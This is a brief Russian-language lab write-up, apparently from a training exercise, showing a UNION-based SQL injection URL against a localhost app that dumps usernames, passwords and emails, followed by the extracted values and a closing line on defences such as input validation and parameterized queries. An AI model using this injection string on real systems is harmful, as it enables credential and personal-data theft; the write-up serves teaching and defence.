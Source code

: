 `http://localhost:8080/task/?id=-1'union select 1, group_concat('[', 'id:', u.id, ', username: ', u.username, ', password: ', u.password, ', email: ', e.email_id, ']'), 1 from users u left join emails e on e.id=u.id where e.email_id="honey_lover@otus-lab.com"--+`

**Таким образом:**

`пароль пользователя с ником Volk2: Wa spoiuuuuu`

`почта пользователя с ником Vinni-pukh: honey_lover@otus-lab.com`

Основные способы противодействия SQL-инъекциям - это экранирование и валидация пользовательского ввода и исключение использования не параметризованных SQL-запросов в приложении.

